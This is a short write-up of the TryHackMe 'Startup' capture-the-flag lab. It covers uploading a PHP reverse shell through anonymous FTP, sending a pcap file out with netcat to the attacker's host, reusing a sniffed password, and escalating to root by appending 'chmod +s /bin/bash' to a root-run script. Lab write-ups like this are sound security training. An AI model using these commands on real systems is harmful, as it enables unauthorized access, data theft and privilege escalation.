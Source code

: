# Startup 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | Easy
Os | Linux

**Notes :**




## Gaining Access 😉

- ftp port is open 
	- run ls -la , we have write permission
	- it can be logined by any ramdom password 
	- ran '?'
	- uploaded a php reverseshell on ftp using put command



## Maintaining Access 🥷
- file found on root incident
	- pcadpng file available
	- downloaded using python simple http
	- found an password enter incident from another user
	- tried the password for lennie
- logged in as lennie (su lennie and ssh lennie@host: both are possible)
- found .sh script owned by root which executes another script owned by lennie
	- /etc/
## Important commands 🔥
- to share files from victim to attacker nc
	- Local: `nc -l -p 1234 > suspicious.pcapng`

	- Target: `nc -w 3 $LHOST 1234 < suspicious.pcapng`
- ettercap to read .pcapng files
	-   `ettercap -T -r suspicious.pcapng`
	-   pspy and linpease can be used for further enumeration
	-   `echo "chmod +s /bin/bash" >> print.sh`
	-   /bin/bash 
		-   `/bin/bash -p`

## Post Exploitation ✴️
- /recip.txt
- User flag : /home/lennie/user.txt
- Root flag : /root/root
## Tips 💡
- something


--------------------------------
**By Nibras Muhammed** 🤓🖥️






